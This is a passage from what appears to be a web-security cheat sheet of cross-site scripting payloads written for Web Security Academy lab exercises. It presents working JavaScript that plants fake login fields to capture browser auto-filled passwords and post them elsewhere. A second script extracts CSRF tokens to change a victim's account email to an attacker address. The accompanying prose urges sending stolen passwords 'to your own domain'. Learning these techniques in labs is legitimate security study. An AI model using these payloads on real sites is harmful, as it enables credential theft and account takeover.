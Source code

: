 ```javascript
	fetch(Url,otherParam);
};
</script>
```
- Stealing passwords

These days, many users have password managers that auto-fill their passwords. You can take advantage of this by creating a password input, reading out the auto-filled password, and sending it to your own domain. This technique avoids most of the problems associated with stealing cookies, and can even gain access to every other account where the victim has reused the same password. 
```javascript
<form><input type=username id="username" name="username"></form>
<form><input type=password id="password" name="password"></form>

<script>
window.onload = function trigger(){
	setTimeout(function exploit(){
	csrf =  document.getElementsByName("csrf")[0].value;
	username = document.getElementById("username").value;
	password = document.getElementById("password").value;
	console.log(csrf)
	
	postData = "csrf="+csrf+"&postId=7&comment=Username: "+username+" Password: "+password+"&name=creds&email=nullcell@hacker.com&website=";
	Url='https://web-security-academy.net/post/comment';
	
	otherParam={
		body:postData,
		method:"POST",
	};

	fetch(Url,otherParam);
}, 2000);
};
</script>
```

- Bypass CSRF Protection (using regex to get CSRF token)

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=nullcell@hacker.com')
};
</script>
```
